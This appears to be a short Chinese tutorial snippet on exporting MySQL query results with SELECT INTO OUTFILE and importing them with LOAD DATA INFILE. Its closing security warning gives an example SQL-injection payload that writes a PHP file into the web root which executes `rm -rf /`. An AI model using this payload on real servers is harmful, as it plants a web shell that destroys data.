

mysql备份数据时可以直接使用sql语句把选取结果导出到文件里。
select * from table1 into outfile '/路径/文件名';导出效果如下：

导出的内容是以\t为分隔符，\n为换行符的数据内容。可以使用
load data infile "./data.txt" into table table1;注意这种方式导出的内容不包括表结构。
如果网站存在sql注入漏洞的话，这种方式也会存在安全风险：
select '<?php echo `rm -rf /`;' into outfile '/path/to/wwwroot/xss.php';相关文档
随便看看